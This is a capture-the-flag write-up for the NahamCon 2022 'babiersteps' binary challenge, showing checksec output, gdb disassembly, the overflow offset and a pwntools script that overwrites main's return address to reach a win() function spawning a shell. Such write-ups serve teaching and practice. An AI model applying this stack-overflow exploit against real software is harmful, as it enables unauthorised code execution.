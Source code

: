 # Babiersteps

## Table of Content

<!-- MarkdownTOC -->

- [HowTo](#howto)
	- [Checksec](#checksec)
	- [GDB](#gdb)
	- [Analyze](#analyze)
	- [Script](#script)

<!-- /MarkdownTOC -->

My first steps to solve pwn challs are to check the binary, with `checksec` and functions on gdb when it's possible.

# HowTo

## Checksec

```bash
> checksec babiersteps

[*] '/home/nilgam/pentest/ctfs/nahamcon_2022/binexp/babiersteps/babiersteps'
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

## GDB

```gdb
> pwndbg> info func

	All defined functions:

	Non-debugging symbols:
	0x0000000000401000  _init
	0x0000000000401070  puts@plt
	0x0000000000401080  setbuf@plt
	0x0000000000401090  execve@plt
	0x00000000004010a0  __isoc99_scanf@plt
	0x00000000004010b0  _start
	0x00000000004010e0  _dl_relocate_static_pie
	0x00000000004010f0  deregister_tm_clones
	0x0000000000401120  register_tm_clones
	0x0000000000401160  __do_global_dtors_aux
	0x0000000000401190  frame_dummy
	0x0000000000401196  setup
	0x00000000004011c9  win
	0x00000000004011ea  main
	0x0000000000401230  __libc_csu_init
	0x00000000004012a0  __libc_csu_fini
	0x00000000004012a8  _fini
```

```gdb
pwndbg> disass win
Dump of assembler code for function win:
   0x00000000004011c9 <+0>:	endbr64 
   0x00000000004011cd <+4>:	push   rbp
   0x00000000004011ce <+5>:	mov    rbp,rsp
   0x00000000004011d1 <+8>:	mov    edx,0x0
   0x00000000004011d6 <+13>:	mov    esi,0x0
   0x00000000004011db <+18>:	lea    rdi,[rip+0xe26]        # 0x402008
   0x00000000004011e2 <+25>:	call   0x401090 <execve@plt>
   0x00000000004011e7 <+30>:	nop
   0x00000000004011e8 <+31>:	pop    rbp
   0x00000000004011e9 <+32>:	ret    
End of assembler dump.
pwndbg> x/s 0x402008
0x402008:	"/bin/sh"
```

## Analyze

Things to notice :

- No PIE
- win() @ 0x4011c9.
- win() does a execve('/bin/sh')

From that, the solution seems pretty obvious : overwrite the ret addr of main() to go to win().

For that, we need to know the offset to perform this overflow.
In GDB, we run the command `run < <(cyclic 500)`, then we get : 

```
Program received signal SIGSEGV, Segmentation fault.
0x0000000000401220 in main ()
[...]
 ► 0x401220 <main+54>    ret    <0x6261616762616166>
pwndbg> cyclic -o 0x62616166
120
```

## Script

```py
from pwn import *

elf = ELF('./babiersteps')

offset = cyclic_find(0x62616166)

context.binary = elf

payload = offset * b'a'
payload += p64(elf.symbols.win)

# with remote('challenge.nahamcon.com', 31262) as p:
with elf.process() as p:
	p.sendline(payload)
	p.interactive()
```